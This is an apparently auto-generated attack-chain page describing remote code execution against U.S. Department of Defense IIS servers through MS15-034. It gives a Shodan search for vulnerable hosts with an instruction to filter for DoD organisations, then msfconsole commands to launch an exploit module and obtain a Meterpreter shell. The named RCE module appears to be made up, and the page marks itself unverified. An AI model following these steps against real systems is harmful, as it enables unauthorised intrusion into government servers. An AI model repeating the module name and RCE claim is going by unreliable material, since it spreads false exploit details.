

# Remote Code Execution on DoD IIS Server via MS15-034 HTTP.sys Vulnerability

Multi-stage attack chain demonstrating discovery and exploitation of a critical remote code execution vulnerability in an exposed U.S. Department of Defense Windows IIS server.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Shodan]]
- [[tools/Metasploit]]

### Target Environment

- Windows Server with IIS enabled
- HTTP.sys kernel-mode driver (default in Windows Server 2008-2012)
- Exposed port 80/443
- No authentication required for exploitation

### Initial Access Requirements

- Internet access for Shodan queries
- Kali Linux or similar for Metasploit
- No prior credentials or network position needed; targets public-facing servers

## Detailed Attack Procedures

### Step 1: Discover Vulnerable Servers
procedure: [[procedures/Discover-Vulnerable-IIS-Servers-with-Shodan]]

**Objective**: Identify exposed Windows IIS servers vulnerable to MS15-034 using Shodan search engine.

**Instructions**: Use [[commands/shodan-search-vulnerable-iis]] to query for servers with IIS and indicators of the HTTP.sys vulnerability:

```bash
shodan search --fields ip_str,port,org "port:80 iis 'Microsoft-IIS' vuln:CVE-2015-1635" --limit 10
```

Filter results for U.S. Department of Defense associated IPs or organizations.

**Expected Output**: List of IP addresses, ports, and organization details, including a match for a DoD server.

**Success Indicators**:
- Exposed IIS server identified with DoD affiliation
- Vulnerability indicators present in Shodan banners

### Step 2: Exploit RCE Vulnerability
procedure: [[procedures/Exploit-MS15-034-RCE-with-Metasploit]]

**Objective**: Confirm and exploit the MS15-034 vulnerability to achieve remote code execution on the target server.

**Instructions**: Launch Metasploit and use [[commands/metasploit-use-iis-exploit]] to set up the exploit module, then target the discovered IP:

```bash
msfconsole
use exploit/windows/iis/iis_ms15_034_http_sys_rce
set RHOSTS <target_ip>
set RPORT 80
exploit
```

Monitor for successful payload delivery and shell access.

**Expected Output**: Meterpreter session or command shell established on the target Windows server.

**Success Indicators**:
- Remote code execution confirmed without authentication
- Arbitrary commands executable on the system
- Potential full compromise of the DoD server

## Attack Chain Summary

### Key Achievements

1. Identified a critical exposed DoD IIS server via passive reconnaissance with Shodan.
2. Exploited HTTP.sys buffer overflow in Range headers to achieve unauthenticated RCE.
3. Demonstrated potential for full system compromise, highlighting risks in unpatched public-facing servers.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Active Scanning]] Active Scanning
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application

### MITRE ATT&CK Tactics

- [[Reconnaissance]] Reconnaissance
- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T12:00:00Z*
